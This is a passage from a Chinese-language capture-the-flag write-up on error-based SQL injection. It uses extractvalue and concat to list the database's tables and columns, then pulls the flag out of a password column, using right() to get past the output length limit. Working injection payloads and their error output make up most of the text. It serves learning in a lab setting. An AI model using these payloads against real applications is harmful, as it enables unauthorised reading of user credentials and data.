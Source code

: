   得到

  ```
  XPATH syntax error: '~geek'
  ```

- 查看数据库表名

  ```
  1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))))#
  ```

  `information_schema`：可以看做是一个全局数据库，记录了所有的数据库名、表名、列名等

  `table_schema`：数据表所属的数据库名

  `like`：like操作符用于在where子句中搜索列中的指定模式。

  结果得到

  ```
  XPATH syntax error: '~H4rDsq1'
  ```

- 查看数据库列名

  ```
  1'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))))#
  ```

  `table_name`：数据表名

  得到的结果

  ```
  XPATH syntax error: '~id,username,password'
  ```

- 猜测flag在`password`字段中

  ```
  1'^extractvalue(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1))))#
  ```

  得到

  ```
  XPATH syntax error: '~flag{4c02c593-6680-4a0c-bbca-82'
  ```

  由于输出有长度限制，所以强制选取右边的几位

  ```
  1'^extractvalue(1,concat(0x7e,(select(right(password,30))from(H4rDsq1))))#
  ```

  得到

  ```
  XPATH syntax error: '~3-6680-4a0c-bbca-82b9c809b60e}'
  ```

  